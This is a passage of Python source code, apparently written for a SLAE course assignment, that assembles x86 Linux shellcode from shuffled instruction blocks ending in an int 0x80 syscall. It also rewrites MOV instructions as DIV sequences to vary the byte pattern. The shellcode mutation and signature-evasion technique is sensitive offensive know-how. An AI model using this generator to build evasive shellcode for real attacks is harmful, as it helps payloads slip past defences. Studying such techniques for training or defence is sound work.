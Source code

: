 

    shuffle(init_blk);
    shuffle(setup_blk);

    tmp="".join(init_blk)+"".join(setup_blk)+"\\xcd\\x80";
    shellcode=tmp.replace("$$", str(par));
    return shellcode

def kill_div_for_mov(n, mov_to_cl):
    # DIV stores result in AX and if the divider is 1 byte long, the result is
    # in AL and reminder in AH
    # e.g.
    #   AL = 37
    #   AH = 0
    #   Our code here will calculate an initializer number for EAX this way:
    #       DL = random number between 1..FF
    #       EAX = 37 * DL
    # 
    # After the last div, n will be stored in AL and AH will be 0. 
    # The impact in terms of byte is +4 bytes every MOV substituted with the
    # DIV. The impact is +6 when the value must be in another register but EAX.
    #
    # This strategy is too expensive in terms of shellcode lenght and *MUST
    # NOT* be considered in the SLAE assignment solutions.

    dl_value = randint(1, 255);
    ax_value = n * dl_value;

    val = socket.htons(ax_value);   # now the value is in network byte order
                                    # like the way it would be stored into
                                    # the stack
 
    hex_val = format(val, 'x');     
    mov_ax = "\\x66\\xb8\\x"+hex_val[0:2]+"\\x"+hex_val[2:4];
    mov_dl = "\\xb2\\x"+format(dl_value, 'x');
    div_dl = "\\xf6\\xf2";          